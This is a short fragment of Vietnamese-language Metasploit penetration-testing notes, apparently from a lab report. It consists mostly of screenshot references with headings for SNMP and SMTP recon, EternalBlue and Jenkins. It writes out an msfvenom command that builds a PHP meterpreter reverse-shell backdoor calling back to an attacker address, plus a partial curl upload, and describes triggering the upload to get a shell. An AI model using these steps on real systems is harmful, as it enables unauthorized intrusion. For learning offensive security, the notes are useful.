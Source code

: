 ![](../media/MSF%20PENTEST%20REPORT_43.png)

SNMP ENUM

![](../media/MSF%20PENTEST%20REPORT_44.png)

TẠO PHP UPLOAD BACKDOOR

msfvenom -p php/meterpreter/reverse_tcp -f raw LHO= 192.168.44.128 LPORT=8585 -o nweb.php

![](../media/MSF%20PENTEST%20REPORT_45.png)

Khai thác

![](../media/MSF%20PENTEST%20REPORT_46.png)

1 cách khác để upload file

curl -T "/home/kali/Desktop/newweb.php"

![](../media/MSF%20PENTEST%20REPORT_47.png)

Vào link kiểm tra

![](../media/MSF%20PENTEST%20REPORT_48.png)

Kiếm payload reverse shell

![](../media/MSF%20PENTEST%20REPORT_49.png)

Chạy payload và kích vào file vừa mới upload để lấy reverse shell

![](../media/MSF%20PENTEST%20REPORT_50.png)

SMTP Recon

![](../media/MSF%20PENTEST%20REPORT_51.png)

KHAI THÁC

Eternal blue

![](../media/MSF%20PENTEST%20REPORT_52.png)

Set rhost and payload

![](../media/MSF%20PENTEST%20REPORT_53.png)

Reverseshell – lang nghe port tren may nan nhan va may nan nhan se gui ve may tan cong

![](../media/MSF%20PENTEST%20REPORT_54.png)

![](../media/MSF%20PENTEST%20REPORT_55.png)

EXPLOIT JENKIN
